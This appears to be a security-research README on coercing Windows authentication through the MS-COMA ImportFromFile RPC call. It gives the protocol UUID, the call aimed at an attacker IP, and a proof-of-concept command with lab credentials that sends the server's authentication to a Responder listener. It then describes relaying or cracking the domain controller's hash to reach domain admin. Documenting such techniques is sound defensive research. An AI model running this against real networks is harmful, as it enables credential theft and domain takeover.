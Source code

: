 # MS-COMA - Remote call to ImportFromFile (opnum 3)

## Summary

+ **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

+ **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`ImportFromFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c81e49b8-6ffa-4872-a3ad-ef423fd58bdc)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`ImportFromFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c81e49b8-6ffa-4872-a3ad-ef423fd58bdc) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ImportFromFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT ImportFromFile(
   [in, string, unique] WCHAR* pwszModuleDestination,
   [in, string] WCHAR* pwszInstallerPackage,
   [in, string, unique] WCHAR* pwszUser,
   [in, string, unique] WCHAR* pwszPassword,
   [in, string, unique] WCHAR* pwszRemoteServerName,
   [in] DWORD dwFlags,
   [in] GUID* reserved1,
   [in] DWORD reserved2,
   [out] DWORD* pcModules,
   [out, size_is(,*pcModules)] DWORD** ppModuleFlags,
   [out, string, size_is(,*pcModules)] 
     LPWSTR** ppModules,
   [out] DWORD* pcComponents,
   [out, size_is(,*pcComponents)] GUID** ppResultCLSIDs,
   [out, string, size_is(,*pcComponents)] 
     LPWSTR** ppResultNames,
   [out, size_is(,*pcComponents)] DWORD** ppResultFlags,
   [out, size_is(,*pcComponents)] LONG** ppResultHRs
 );
```

## References

+ Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

+ Documentation of function `ImportFromFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c81e49b8-6ffa-4872-a3ad-ef423fd58bdc